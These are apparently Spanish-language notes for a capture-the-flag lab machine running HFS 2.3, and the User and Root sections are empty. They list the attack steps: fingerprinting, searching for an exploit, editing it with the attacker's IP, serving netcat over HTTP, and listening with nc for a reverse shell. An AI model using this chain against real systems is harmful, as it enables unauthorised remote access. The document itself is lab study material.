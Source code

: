 ## Summary

Tags: 
N
- IP -> 10.10.10.8
- Ports -> TCP (), UDP (idk)
- OS ->  
- Services & Applications
    -  -> 
    -  -> 


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Comando -> **searchsploit HFS 2.3** Buscamos vulnerabilidades, si encontramos con .py mucho mejor
Al exploit (2) en python lo modificamos, colocandoles nuestra IP
- **python2 hfs_exploit.py 10.10.10.8 80** Lo ejecutamos, en donde la especificamos la IP victima y su puerto 

Nos descargamos el netcat ya que debemos de ejecutar el comando anterior minimo 2 veces en donde buscara el netcat con un recurso compartido (El netcat debe ser para Windows) por lo que nos lo descargamos 
- **python3 -m http.server 80** Montamos el recurso compartido 
- **rlwrap nc -nlvp 443** Nos ponemos en escucha para recibir la revershell

## User


## Root
